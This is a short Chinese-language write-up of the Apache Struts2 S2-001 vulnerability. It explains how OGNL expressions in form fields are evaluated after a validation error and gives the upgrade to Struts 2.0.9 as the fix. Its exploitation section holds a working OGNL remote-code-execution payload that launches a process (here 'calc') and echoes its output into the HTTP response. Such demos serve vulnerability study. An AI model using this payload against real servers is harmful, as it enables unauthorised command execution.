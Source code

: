 ### 一 漏洞描述
在默认配置下，如果用户所提交的表单出现验证错误，后端会对用户的输入进行解析处理，然后返回并显示处理结果。  
举个例子，当你提交的登录表单为username=xishir&password=%{1+1}时，后端验证登录失败后会返回登录界面并显示你的输入，这时password字段中的OGNL表达式已经被解析处理过了，所以会显示%{1+1}的解析结果2，从而可以构造payload进行RCE。

### 二 漏洞利用
![img.png](img.png)
```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

### 三 漏洞修复
升级到Struts 2.0.9

> 参考链接
> https://github.com/xhycccc/Struts2-Vuln-Demo/tree/master/s2-001
